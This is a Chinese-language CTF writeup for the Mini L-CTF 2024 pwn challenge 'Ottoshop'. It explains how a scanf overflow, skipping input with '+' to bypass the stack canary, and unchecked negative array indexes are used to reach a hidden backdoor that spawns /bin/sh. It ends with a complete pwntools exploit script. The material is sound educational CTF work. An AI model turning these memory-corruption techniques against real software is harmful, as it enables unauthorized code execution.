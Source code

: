 # Mini L-CTF 2024 Writeup - RiK

​	算是第一次参加常规的 CTF，由于团队分工，我主打 Pwn 方向。

## Pwn - Ottoshop♿

​	最抽象的一集。在 `main` 函数里看到，输入 `666` 可以获得一次购买 golden ♿ 的机会。注意到设置 ♿ 名字的 `scanf` 存在溢出。 `scanf` 读取数字时，**输入 `+` 或 `-` 即可跳过一次输入**（因为不知道这回事卡了好久 😭），这样可以绕过 canary 保护，修改返回地址劫持控制流。`buy` 函数和 `change` 函数中都**未检查负数 index**，可以向上任意写。在一堆 otto 函数（雾）中发现**后门函数 `o77oOtTo0T70()`**（由于直接用 syscall 而非封装函数，所以从 got 表看不出端倪），其检查 `flag2` 值是否为 `otto` 并从 `flag1` 中异或出 `/bin/sh\0` 并执行 `execve`。所以只需要用 `buy` 修改 `flag2`（index = -72）、`money`（index = -90），用 `golden` 劫持控制流至后门函数即可。

Exp：

```python
from pwn import *

context.terminal = ['konsole', '-e']

binary = 'ottoshop'
p = process(binary)
elf = ELF(binary)

address = 0x04020A4
need_to_be_666 = 0x407580
start = 0x407180
flag2 = 0x407060
money = 0x407018

pos1 = (flag2 - start) // 4
pos2 = (money - start) // 4

p.sendline(b'666')
p.sendline(b'')

p.sendline(b'1')
p.sendline(b'-72')
p.send(b'otto')

p.sendline(b'1')
p.sendline(b'-90')
p.send(b'abcd')

p.sendline(b'3')
p.sendline(b'4')
p.sendline(b'0')
p.sendline(b'+')
p.sendline(b'0')
p.sendline(b'4202660')
p.interactive()
```
